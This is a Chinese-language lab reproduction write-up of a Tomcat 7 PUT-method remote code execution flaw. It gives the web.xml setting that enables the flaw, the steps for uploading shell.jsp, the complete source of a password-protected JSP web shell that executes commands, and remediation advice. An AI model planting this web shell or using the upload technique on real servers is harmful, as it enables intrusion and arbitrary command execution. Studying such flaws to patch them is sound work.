






# 远程代码执行

**影响版本：Apache Tomcat 7.0.0 - 7.0.81**

**原理：**Tomcat 运行在Windows 主机上，且启用了 HTTP PUT 请求方法，可通过构造的攻击请求向服务器上传包含任意代码的 JSP 文件，造成任意代码执行。

**复现**

修改web.xml配置文件，增加代码，重启服务器

```
<init-param>
     <param-name>readonly</param-name>
     <param-value>false</param-value>
</init-param>
```




访问192.168.3.135:8080抓包，修改请求方式为PUT，创建shell.jsp文件，并用%20转义空格字符，发送请求内容为一句话木马

```
<%
   if("023".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
//使用方式
//访问http://ip/shell.jsp?pwd=023&i=ipconfig
```




返回201 Created，说明创建成功。

服务器根目录下已经收到shell.jsp



访问192.168.3.135/shell.jsp?pwd=023&i=ipconfig，直接执行了i参数的值




执行calc命令，可以弹出计算器





**修复**

1. 禁用PUT方法

   ```
   <init-param>
        <param-name>readonly</param-name>
        <param-value>true</param-value>
   </init-param>
   ```

   

2. 升级tomcat版本